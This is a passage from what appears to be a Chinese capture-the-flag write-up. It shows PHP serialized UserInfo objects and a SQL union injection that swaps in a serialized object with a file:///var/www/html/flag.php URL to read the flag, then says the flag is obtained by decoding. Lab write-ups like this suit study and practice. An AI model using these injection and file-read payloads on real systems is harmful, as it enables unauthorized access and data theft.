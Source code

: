 ```
O:8:"UserInfo":3:{s:4:"name";s:3:"aaa";s:3:"age";i:12;s:4:"blog";s:14:"hzy2003628.top";},O:8:"UserInfo":3:{s:4:"name";s:5:"aaaqq";s:3:"age";i:12;s:4:"blog";s:5:"j.com";}
```

那我们可以试试能不能使用反序列化读取到flag文件
```
-1 /**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"aaa";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' --+
```

![image-20220707161356095](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071613183.png?x-oss-process=hzy)

解码得到flag

![image-20220707161528602](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071615711.png?x-oss-process=hzy)

一下午就写这些，害，累了，跑路了

![img](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251740867.jpeg?x-oss-process=hzy)

